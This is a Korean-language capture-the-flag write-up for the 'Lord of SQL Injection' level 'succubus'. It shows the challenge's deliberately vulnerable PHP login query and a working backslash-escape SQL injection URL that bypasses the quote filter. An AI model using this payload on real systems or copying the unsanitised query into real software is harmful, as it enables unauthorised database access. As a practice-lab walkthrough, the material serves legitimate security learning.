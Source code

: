 # Lord of SQL Injection No.17 - succubus
## 문제 출제 의도 
'를 필터링하는 preg_match함수를 우회하여 원하는 값을 전달할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```
~~~
if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
~~~
preg_match 함수가 `'`를 필터링하는 것을 알 수 있다.
## Solution
~~~
http://los.eagle-jump.org/succubus_8ab2d195be2e0b10a3b5aa2873d0863f.php?id=\&pw= or 1=1 -- -
~~~
+ 이는 \가 {$_GET[id]}뒤에 있는 `'`를 문자로 인식하게 만들어 ' and pw='를 id의 값으로 만든다.